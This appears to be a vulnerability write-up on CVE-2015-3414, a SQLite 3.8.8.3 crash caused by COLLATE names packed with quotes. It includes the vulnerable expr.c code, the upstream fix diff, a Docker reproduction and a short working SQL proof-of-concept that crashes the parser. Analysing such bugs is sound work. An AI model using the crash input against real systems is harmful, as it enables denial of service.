


# CVE-2015-3414 CWE-908 SQLite DoS

## Vulnerability Background
- **SQLite:** A lightweight, embedded relational database management system that does not require separate server processes or complex configurations. SQLite stores data directly on the file system, featuring zero configuration, ease of use, and suitability for small applications. It supports standard SQL statements, provides good data security, and is widely used in desktop and mobile app development due to its lightweight nature.
- **CWE-908（ Use of Uninitialized Resource）**

## Vulnerability Mechanism
When handling sorting rule names in `COLLATE` clauses, SQLite does not correctly dequote the name of the rule that contains quotes. Especially when the sorting rule name contains multiple quotes, SQLite fails to handle the referencing correctly, resulting in string formatting errors or uninitialized memory access, which can lead to crashes or potential undefined behavior.

## Vulnerability Location
In the src/expr.c file, line 69 `sqlite3ExprAddCollateToken` is used to add `COLLATE` clauses to SQL expressions and pass the name of the sorting rule (`pCollName`) via `Token`.

`pCollName` is a `Token` type that contains the name of the sorting rule. `sqlite3ExprAddCollateToken` will add this `Token` to the `Expr` expression and append the `COLLATE` clause to the `pExpr`.

At line 75 `pCollName` passed to `sqlite3ExprAlloc`, the `1` in `sqlite3ExprAlloc(pParse->db, TK_COLLATE, pCollName, 1)` is a `dequote` parameter, meaning it tries to remove quotes from the sorting rule name. However, this `dequote` handling may not be robust enough, especially when the sorting rule name (`pCollName`) itself contains redundant or irregular quotes (such as `""""""""`). SQLite may encounter errors because dereference operations may attempt to remove extra quotes, resulting in incorrect string formatting.

```c
// expr.c file, line 69
Expr *sqlite3ExprAddCollateToken(
  Parse *pParse,           /* Parsing context */
  Expr *pExpr,             /* Add the "COLLATE" clause to this expression */
  const Token *pCollName   /* Name of collating sequence */
){
  if( pCollName->n>0 ){
      // Line 75
    Expr *pNew = sqlite3ExprAlloc(pParse->db, TK_COLLATE, pCollName, 1);
    if( pNew ){
      pNew->pLeft = pExpr;
      pNew->flags |= EP_Collate|EP_Skip;
      pExpr = pNew;
    }
  }
  return pExpr;
}
Expr *sqlite3ExprAddCollateString(Parse *pParse, Expr *pExpr, const char *zC){
  Token s;
  assert( zC!=0 );
  s.z = zC;
  s.n = sqlite3Strlen30(s.z);
  return sqlite3ExprAddCollateToken(pParse, pExpr, &s);
}
```

## Remediation
A new `dequote` parameter has been added, allowing control over whether to reference the sorting rule name when adding `COLLATE` clauses. If `dequote` is set to `1`, quotes from the sorting rule will be removed to avoid unrecognizable sorting rule names. The modified function can handle quotation marks in sorting rule names, avoiding errors previously caused by improper handling.

```diff
Index: src/expr.c
==================================================================
--- src/expr.c
+++ src/expr.c
@@ -67,14 +67,15 @@
 ** and the pExpr parameter is returned unchanged.
 */
 Expr *sqlite3ExprAddCollateToken(
   Parse *pParse,           /* Parsing context */
   Expr *pExpr,             /* Add the "COLLATE" clause to this expression */
-  const Token *pCollName   /* Name of collating sequence */
+  const Token *pCollName,  /* Name of collating sequence */
+  int dequote              /* True to dequote pCollName */
 ){
   if( pCollName->n>0 ){
-    Expr *pNew = sqlite3ExprAlloc(pParse->db, TK_COLLATE, pCollName, 1);
+    Expr *pNew = sqlite3ExprAlloc(pParse->db, TK_COLLATE, pCollName, dequote);
     if( pNew ){
       pNew->pLeft = pExpr;
       pNew->flags |= EP_Collate|EP_Skip;
       pExpr = pNew;
     }
@@ -84,11 +85,11 @@
 Expr *sqlite3ExprAddCollateString(Parse *pParse, Expr *pExpr, const char *zC){
   Token s;
   assert( zC!=0 );
   s.z = zC;
   s.n = sqlite3Strlen30(s.z);
-  return sqlite3ExprAddCollateToken(pParse, pExpr, &s);
+  return sqlite3ExprAddCollateToken(pParse, pExpr, &s, 0);
 }
 
 /*
 ** Skip over any TK_COLLATE or TK_AS operators and any unlikely()
 ** or likelihood() function at the root of an expression.
```

## Affected Versions
SQLite <= 3.8.8.3

## Environment Setup
Start the Docker environment with SQLite version 3.8.8.3, which enables ASAN memory detection at compile time

```txt
NIST:NVD   Base Score:7.5 HIGH   Vector:(AV:N/AC:L/Au:N/C:P/I:P/A:P)
```

```txt
cpe:2.3:a:sqlite:sqlite:3.8.8.3:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
Enter the container command line and run the PoC file. You will see the program exit and an error indicating assertion failure.

```bash
docker exec -it sqlite-3.8.8.3 sqlite3 test_db ".read CVE-2015-3414-PoC.sql"
```



## PoC Analysis

```sql
CREATE TABLE x1(a);

SELECT a FROM x1 ORDER BY 1 COLLATE """""""";
```

The function of SQLite's `sqlite3Dequote` function is to remove quotes from both sides of a string. When handling strings like `""""""""`, SQLite tries to remove the outermost quotes, but the result may be due to asymmetric quotes or formatting errors, causing the `sqlite3Dequote` function to fail.

## References
[NVD - CVE-2015-3414](https://nvd.nist.gov/vuln/detail/CVE-2015-3414)

[SQLite: Check-in [eddc05e7bb\]](https://www.sqlite.org/src/info/eddc05e7bb31fae74daa86e0504a3478b99fa0f2)
